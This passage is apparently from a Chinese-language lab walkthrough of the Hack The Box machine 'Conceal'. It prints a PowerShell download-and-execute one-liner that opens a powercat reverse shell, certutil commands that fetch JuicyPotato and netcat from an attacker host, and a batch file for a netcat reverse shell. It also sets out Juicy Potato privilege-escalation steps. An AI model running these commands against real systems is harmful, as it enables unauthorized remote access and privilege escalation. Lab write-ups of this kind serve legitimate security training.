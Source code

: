 ![]({{ site.url }}/assets/Conceal_116.assets/20201116152557932_1392816161.png)


执行命令打个powercat过去


`powershell -c "IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.14.41:8080/powercat.ps1');powercat -c 10.10.14.41 -p 443 -e cmd"`

![]({{ site.url }}/assets/Conceal_116.assets/20201116152611110_1489465627.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152731015_195108065.png)

![]({{ site.url }}/assets/Conceal_116.assets/20201116152715278_231919910.png)


查看我的权限

whoami /priv

![]({{ site.url }}/assets/Conceal_116.assets/20201116152744083_2121203133.png)



如果用户有SeImpersonate 或者 SeAssignPrimaryToken权限的话！
这意味着我们可以应用著名的攻击Juicy Potato。您可以在官方的github仓库中阅读有关它的信息。。
`https://github.com/ohpe/juicy-potato`



我们需要知道此windows的版本以选择正确的窗口clsid

![]({{ site.url }}/assets/Conceal_116.assets/20201116152805094_685032484.png)

查询页面
https://github.com/ohpe/juicy-potato/tree/master/CLSID

wuauserv的CLSID

`{e60687f7-01a1-40aa-86ac-db1cbf673334}`

下载 juicypotato 

`https://github.com/ohpe/juicy-potato/releases`

传输到靶机

```powershell
certutil -urlcache -split -f http://10.10.14.41:8080/JuicyPotato.exe JuicyPotato.exe

certutil -urlcache -split -f http://10.10.14.41:8080/nc.exe nc.exe
```

![]({{ site.url }}/assets/Conceal_116.assets/20201116152911898_681127021.png)

制作一个恶意批处理文件

`echo c:\Users\Destitute\Desktop\nc.exe -e cmd.exe 10.10.14.41 1337 > rev.bat`

![]({{ site.url }}/assets/Conceal_116.assets/20201116153028674_1614003437.png)
